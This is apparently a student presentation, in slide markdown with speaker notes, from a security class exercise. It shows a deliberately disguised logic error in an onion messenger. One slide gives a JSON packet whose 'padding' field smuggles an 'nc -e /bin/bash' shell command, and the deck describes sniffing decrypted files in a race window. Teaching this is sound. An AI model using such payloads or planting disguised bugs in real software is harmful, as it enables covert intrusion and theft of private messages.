 ### Vulnerability and Exploitation
### (with Onion Messengers)

<br>
<br>

- TA: SeongIl Wi
- DongHyeon Oh

Note:
Hello. this is presenter DongHyeon Oh.

As you know, today subject is Vulerability and Exploitation with Onion Messegners

---

## Goals

<br>

- Logic error : anybody can make a mistake |
- Command injection : victim should not be aware |
- Privacy breach : get a sensitive data |

Note:
In this activity, I determine three goals.

First of all, anybody can make a mistake sometimes in the coding.

So I make the logic error seems to a natural mistake.

Second, if a victim was attacked by attacker, he should not be aware.

The last thing is Get a sensitive data!

---

## Scenario

- Logic error |
- Control-flow hijack(Command injection) |
- Privacy breach |


Note:
Scenario is same with Goals.

Occuring the logic error, Control flow hijacking with command injection and Privacy breach.

T_T In a broad sense, command injection is control-flow hijack

---

## Protocol

![logic1](images/logic1.png)

Note:
This is our program's protocol.

there are id and bullian. they determine the packet status.

under the this protocol table, this is the code same with protocol.


---?code=assets/logic1.cpp&lang=c++&title=Recv thread source

@[1-5](Key alive)
@[6-10](Key die)
@[11-22](Get my message)
@[50-55](Not my message. So forwarding)
@[50-57](Abnormal input go to else condition)

Note:
Let's see the real source code.

this is key alive, key die, my message, not my message

in the not my message, the key point at onion protocol. But work foolish.

Because this condition gets all abnormal input like this one.

but exactly this program doesn't die when recv this abnormal input.

Just push in to the queue.

---?code=assets/sendthread.cpp&lang=c++&title=Logic error

@[1-12](Send Thread)
@[1-4,13-14](General input / Abnormal input)

Note:
If there is a value in the queue, this send thread could work.

And send thread encrypt a padding. And just send it!

So this abnormal input also ecncrypt the padding!

---?code=assets/cmdi.cpp&lang=c++&title=Command injection

@[1-4](Send Thread)
@[6-13](Encrypt)
@[9,13](Command injection)

Note:
And this Encrypt method has a command injection attack vector.

So we can put together this Logic error and command injection.

---

## Command injection

```
{"id":"1","bullian":"192","recvip":"172.17.0.10",
"padding":"`nc -e /bin/bash -llvp 9999 1>/dev/null 2>/dev/null`"}
```

Note:
We can make this payload for command injection.

ID equal one, bullian is no matter~

and input attack payload in the padding.

---

## Get shell!

<img src="images/shell.png" width=800px height=500px>

Note:
Than we can get the shell!

Next step is Privacy breach

---

## Privacy breach

---?code=assets/privacy.cpp&lang=c++&title=pgpmanager.cpp

@[3,4,7](Make a file)
@[17,19](Delete a file)
@[7,8,17,18,19](There is a term)

Note:
This is Decrypt source code.

make a decrypt file and delete it.

And there is a term between make and delete.

So I can sniffing in this term.

---

## Demo

Note:
I am going to present Demo~

---

## Summary

- Logic error

- Control-flow hijack

- Privacy breach

---

# Q & A

---

## Appendix1

- Logic error

```
A bug in a program that causes it to operate incorrectly,
but not to terminate abnormally (or crash).

-> Send thread is operate incorrectly,
   but not to terminate abnormally!
```

---

## Appendix2

- README.md

- There are detail explanation in README.md
```
취약점 발생 원리 요약
취약점 발생 원리 상세 설명
Installation
Exploit usages
Examples
```
